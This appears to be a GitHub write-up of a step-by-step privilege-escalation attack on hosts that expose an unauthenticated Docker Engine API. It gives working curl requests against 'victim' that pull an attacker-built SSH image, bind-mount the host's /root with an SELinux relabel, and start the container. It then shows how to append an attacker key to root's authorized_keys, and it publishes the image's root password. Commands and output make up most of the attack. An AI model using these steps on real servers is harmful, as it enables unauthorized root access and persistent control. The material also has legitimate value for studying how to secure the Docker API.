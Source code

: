 ﻿
# Docker API Privilege Escalation
***

This document has the objective to explain a simple way to remotely make a privilege escalation in a Docker, using it's own Engine API service. 

During my analisys routine I manage to successfully make an attack, so I decided to share freely. 

I`ve made an image available containing a SSH service enabled in the  [Docker Hub](https://hub.docker.com/r/pype/privsshd/) to help in the attack (The image available it's huge, more than 200MB because of the Ubuntu base image. As soon as possible I will made available a smaller image).

PS: This attack explore a option available in the docker, without the need to utilize memory exploitation or similar way (As usually used to escape the container).
**PS2: This is only ONE of many ways to explore an server utilizing the docker API service.** If during my analysis I find others explore methods, I will post in this repository.

Any suggestions to improve the attack or to protect yourself, I'm available to listen to all of it and add to this document if appropriate.


## Engine API

*"The Engine API is an HTTP API served by Docker Engine. It is the API the Docker client uses to communicate with the Engine, so everything the Docker client can do can be done with the API."*

**By default this service don't use any authentication**, but this resource it's made available by the platform.

- [Docker Engine API](https://docs.docker.com/engine/api/v1.32/)
- [Authentication](https://docs.docker.com/engine/api/v1.32/#section/Authentication)

During the attack, we are going to utilize the parameters provided by the platform so this way we can explore the system and obtain privileged internal access.

## Exploitation
The main focus of the attack it's to be able to inject our public key inside the file *"authorized_keys"* from the root user in the server!


The exploration consist in six parts:

1. **Push the image in server**
2. **Configure a container with our image**
3. **Start the container**
4. **Connect to container SSH**
5. **Import public key in .ssh/authorized_keys in root directory**
6. **Finaly connect to SSH server with root access**

***

* **Push image in server**

The selected image for the attack need to have some kind the shell remote service available in the start, so this way we can connect to the container inside the server.

```bash
curl -XPOST "http://victim/images/create?fromImage=pype/privsshd"

< HTTP/1.1 200 OK
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 15:41:46 GMT
< Transfer-Encoding: chunked
< 
...
{"status":"Status: Image is up to date for docker.io/pype/privsshd:latest"}
```
In the example above I used the option to create an image from the official repository. There is [other methods](https://docs.docker.com/engine/api/v1.24/#32-images) to execute the same operation.

pype/privsshd -  The Image that I've made available to help in the documentation of the attack. 

* **Configure a container with our image**

For we to be able to inject our public key inside the file .ssh/authorized_key, we need access to the root directory in the Docker Server. For this we are going to utilize the option "Binds", this way we can select the volume of what is going to be shared between the server and our container. (Remember to configure the read and write option)

**SELINUX  *"Bypass"***

The Docker provides a mounting option capable of modify the SELINUX file or directory label shared with the container. With this option, it’s possible to mount privileged directory inside of our container (E.g.: /root/;/etc;/bin …).

We can send this option via API too, this way we can work around the SELINUX remotely .

 *"This affects the file or directory on the host machine itself and can have consequences outside of the scope of Docker."*

```json
"Binds":[  
      "/root/:/root/:rw,z"
      ]
``` 

Mais informações: [Configure-the-selinux-label](https://docs.docker.com/engine/admin/volumes/bind-mounts/#configure-the-selinux-label)


Supposing that our target server already has the port number 22 busy by it's own SSH service, we have to point another outgoing port for our connection with the container, we are going to configure the option "PortBindings" with "HostPort" in another port.
```json
{  
   "Image":"pype/privsshd",
   "Binds":[  
      "/root/:/root/:rw,z"
   ],
   "PortBindings":{  
      "22/tcp":[  
         {  
            "HostIp":"",
            "HostPort":"2233"
         }
      ]
   }
}
```
JSON it's the only format accepted by the platform, therefore configure the Content-Type of your requisition to this type of language.

```bash
curl -H "Content-Type: application/json" -d '{"Image":"pype/privsshd", "Binds": ["/root/:/root/:rw,z"],"PortBindings":{"22/tcp":[{"HostIp":"","HostPort":"2233"}]}}' -XPOST "http://victim/containers/create"

< HTTP/1.1 201 Created
< Content-Type: application/json
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 16:03:34 GMT
< Content-Length: 90
< 
{"Id":"5a3c7f18d202f62...4789e781132495781f","Warnings":null}
```
If everything worked out, the requisition will return an ID and this will be the your container identifier 

* **Start the container**

Use the Identifier to start your container remotely.

```bash
curl -XPOST "http://victim/containers/5a3c7f18d202f62...4789e781132495781f/start" -v 

< HTTP/1.1 204 No Content
< Server: Docker/1.12.6 (linux)
< Date: Sat, 06 Jan 2018 22:29:46 GMT

```
Verify if the service was started with success in the target server.

```bash
~ » nc victim 2233
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
```

* **Connect to container SSH**

```bash
~ » ssh root@victim -p2233
root@victim password: 
root@5a3c7f18d202:~#
```

If you utilized my image **privsshd**, the root password it's: *screencast*.


* **Import public key in .ssh/authorized_keys in root directory**

Now you are free to inject your public key and...

```bash
root@5a3c7f18d202:~# ls .ssh/
authorized_keys  id_rsa  id_rsa.pub  known_hosts
root@5a3c7f18d202:~# echo "ssh-rsa AAAAB3NzaC1yc2EAAAAD.." >> .ssh/authorized_keys
``` 
* **Finaly connect to SSH server with root access**

```bash
~ » ssh root@victim -i key.rsa
[root@docker-server ~]# id
uid=0(root) gid=0(root) groups=0(root) 
[root@docker-server ~]# docker --version
Docker version 1.12.6, build ae7d637/1.12.6
```

Now you have privileged access inside the remote server. :)

***
![](x.gif)
***
References:

http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html

https://docs.docker.com/engine/api/v1.24

https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/



